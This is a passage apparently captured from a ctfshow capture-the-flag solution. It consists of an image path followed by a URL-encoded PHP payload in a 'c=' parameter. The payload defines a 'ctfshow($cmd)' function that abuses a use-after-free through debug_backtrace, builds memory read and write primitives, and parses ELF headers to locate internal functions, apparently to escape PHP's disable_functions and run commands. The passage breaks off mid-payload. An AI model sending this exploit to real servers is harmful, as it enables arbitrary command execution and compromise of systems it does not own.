 ```
c=%0Afunction%20ctfshow(%24cmd)%20%7B%0A%20%20%20%20global%20%24abc%2C%20%24helper%2C%20%24backtrace%3B%0A%0A%20%20%20%20class%20Vuln%20%7B%0A%20%20%20%20%20%20%20%20public%20%24a%3B%0A%20%20%20%20%20%20%20%20public%20function%20__destruct()%20%7B%20%0A%20%20%20%20%20%20%20%20%20%20%20%20global%20%24backtrace%3B%20%0A%20%20%20%20%20%20%20%20%20%20%20%20unset(%24this-%3Ea)%3B%0A%20%20%20%20%20%20%20%20%20%20%20%20%24backtrace%20%3D%20(new%20Exception)-%3EgetTrace()%3B%0A%20%20%20%20%20%20%20%20%20%20%20%20if(!isset(%24backtrace%5B1%5D%5B'args'%5D))%20%7B%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%24backtrace%20%3D%20debug_backtrace()%3B%0A%20%20%20%20%20%20%20%20%20%20%20%20%7D%0A%20%20%20%20%20%20%20%20%7D%0A%20%20%20%20%7D%0A%0A%20%20%20%20class%20Helper%20%7B%0A%20%20%20%20%20%20%20%20public%20%24a%2C%20%24b%2C%20%24c%2C%20%24d%3B%0A%20%20%20%20%7D%0A%0A%20%20%20%20function%20str2ptr(%26%24str%2C%20%24p%20%3D%200%2C%20%24s%20%3D%208)%20%7B%0A%20%20%20%20%20%20%20%20%24address%20%3D%200%3B%0A%20%20%20%20%20%20%20%20for(%24j%20%3D%20%24s-1%3B%20%24j%20%3E%3D%200%3B%20%24j--)%20%7B%0A%20%20%20%20%20%20%20%20%20%20%20%20%24address%20%3C%3C%3D%208%3B%0A%20%20%20%20%20%20%20%20%20%20%20%20%24address%20%7C%3D%20ord(%24str%5B%24p%2B%24j%5D)%3B%0A%20%20%20%20%20%20%20%20%7D%0A%20%20%20%20%20%20%20%20return%20%24address%3B%0A%20%20%20%20%7D%0A%0A%20%20%20%20function%20ptr2str(%24ptr%2C%20%24m%20%3D%208)%20%7B%0A%20%20%20%20%20%20%20%20%24out%20%3D%20%22%22%3B%0A%20%20%20%20%20%20%20%20for%20(%24i%3D0%3B%20%24i%20%3C%20%24m%3B%20%24i%2B%2B)%20%7B%0A%20%20%20%20%20%20%20%20%20%20%20%20%24out%20.%3D%20sprintf(%22%25c%22%2C(%24ptr%20%26%200xff))%3B%0A%20%20%20%20%20%20%20%20%20%20%20%20%24ptr%20%3E%3E%3D%208%3B%0A%20%20%20%20%20%20%20%20%7D%0A%20%20%20%20%20%20%20%20return%20%24out%3B%0A%20%20%20%20%7D%0A%0A%20%20%20%20function%20write(%26%24str%2C%20%24p%2C%20%24v%2C%20%24n%20%3D%208)%20%7B%0A%20%20%20%20%20%20%20%20%24i%20%3D%200%3B%0A%20%20%20%20%20%20%20%20for(%24i%20%3D%200%3B%20%24i%20%3C%20%24n%3B%20%24i%2B%2B)%20%7B%0A%20%20%20%20%20%20%20%20%20%20%20%20%24str%5B%24p%20%2B%20%24i%5D%20%3D%20sprintf(%22%25c%22%2C(%24v%20%26%200xff))%3B%0A%20%20%20%20%20%20%20%20%20%20%20%20%24v%20%3E%3E%3D%208%3B%0A%20%20%20%20%20%20%20%20%7D%0A%20%20%20%20%7D%0A%0A%20%20%20%20function%20leak(%24addr%2C%20%24p%20%3D%200%2C%20%24s%20%3D%208)%20%7B%0A%20%20%20%20%20%20%20%20global%20%24abc%2C%20%24helper%3B%0A%20%20%20%20%20%20%20%20write(%24abc%2C%200x68%2C%20%24addr%20%2B%20%24p%20-%200x10)%3B%0A%20%20%20%20%20%20%20%20%24leak%20%3D%20strlen(%24helper-%3Ea)%3B%0A%20%20%20%20%20%20%20%20if(%24s%20!%3D%208)%20%7B%20%24leak%20%25%3D%202%20%3C%3C%20(%24s%20*%208)%20-%201%3B%20%7D%0A%20%20%20%20%20%20%20%20return%20%24leak%3B%0A%20%20%20%20%7D%0A%0A%20%20%20%20function%20parse_elf(%24base)%20%7B%0A%20%20%20%20%20%20%20%20%24e_type%20%3D%20leak(%24base%2C%200x10%2C%202)%3B%0A%0A%20%20%20%20%20%20%20%20%24e_phoff%20%3D%20leak(%24base%2C%200x20)%3B%0A%20%20%20%20%20%20%20%20%24e_phentsize%20%3D%20leak(%24base%2C%200x36%2C%202)%3B%0A%20%20%20%20%20%20%20%20%24e_phnum%20%3D%20leak(%24base%2C%200x38%2C%202)%3B%0A%0A%20%20%20%20%20%20%20%20for(%24i%20%3D%200%3B%20%24i%20%3C%20%24e_phnum%3B%20%24i%2B%2B)%20%7B%0A%20%20%20%20%20%20%20%20%20%20%20%20%24header%20%3D%20%24base%20%2B%20%24e_phoff%20%2B%20%24i%20*%20%24e_phentsize%3B%0A%20%20%20%20%20%20%20%20%20%20%20%20%24p_type%20%20%3D%20leak(%24header%2C%200%2C%204)%3B%0A%20%20%20%20%20%20%20%20%20%20%20%20%24p_flags%20%3D%20leak(%24header%2C%204%2C%204)%3B%0A%20%20%20%20%20%20%20%20%20%20%20%20%24p_vaddr%20%3D%20leak(%24header%2C%200x10)%3B%0A%20%20%20%20%20%20%20%20%20%20%20%20%24p_memsz%20%3D%20leak(%24header%2C%200x28)%3B%0A%0A%20%20%20%20%20%20%20%20%20%20%20%20if(%24p_type%20%3D%3D%201%20%26%26%20%24p_flags%20%3D%3D%206)%20%7B%20%0A%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%24data_addr%20%3D%20%24e_type%20%3D%3D%202%20%3F%20%24p_vaddr%20%3A%20%24base%20%2B%20%24p_vaddr%3B%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%24data_size%20%3D%20%24p_memsz%3B%0A%20%20%20%20%20%20%20%20%20%20%20%20%7D%20else%20if(%24p_type%20%3D%3D%201%20%26%26%20%24p_flags%20%3D%3D%205)%20%7B%20%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%24text_size%20%3D%20%24p_memsz%3B%0A%20%20%20%20%20%20%20%20%20%20%20%20%7D%0A%20%20%20%20%20%20%20%20%7D%0A%0A%20%20%20%20%20%20%20%20if(!%24data_addr%20%7C%7C%20!%24text_size%20%7C%7C%20!%24data_size)%0A%20%20%20%20%20%20%20%20%20%20%20%20return%20false%3B%0A%0A%20%20%20%20%20%20%20%20return%20%5B%24data_addr%2C%20%24text_size%2C%20%24data_size%5D%3B%0A%20%20%20%20%7D%0A%0A%20%20%20%20function%20get_basic_funcs(%24base%2C%20%24elf)%20%7B%0A%20%20%20%20%20%20%20%20list(%24data_addr%2C%20%24text_size%2C%20%24data_size)%20%3D%20%24elf%3B%0A%20%20%20%20%20%20%20%20for(%24i%20%3D%200%3B%20%24i%20%3C%20%24data_size%20%2F%208%3B%20%24i%2B%2B)%20%7B%0A%20%20%20%20%20%20%20%20%20%20%20%20%24leak%20%3D%20leak(%24data_addr%2C%20%24i%20*%208)%3B%0A%20%20%20%20%20%20%20%20%20%20%20%20if(%24leak%20-%20%24base%20%3E%200%20%26%26%20%24leak%20-%20%24base%20%3C%20%24data_addr%20-%20%24base)%20%7B%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%24deref%20%3D%20leak(%24leak)%3B%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20if(%24deref%20!%3D%200x746e6174736e6f63)%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20continue%3B%0A%20%20%20%20%20%20%20%20%20%20%20%20%7D%20else%20continue%3B%0A%0A%20%20%20%20%20%20%20%20%20%20%20%20%24leak%20%3D%20leak(%24data_addr%2C%20(%24i%20%2B%204)%20*%208)%3B%0A%20%20%20%20%20%20%20%20%20%20%20%20if(%24leak%20-%20%24base%20%3E%200%20%26%26%20%24leak%20-%20%24base%20%3C%20%24data_addr%20-%20%24base)%20%7B%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%24deref%20%3D%20leak(%24leak)%3B%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%2
```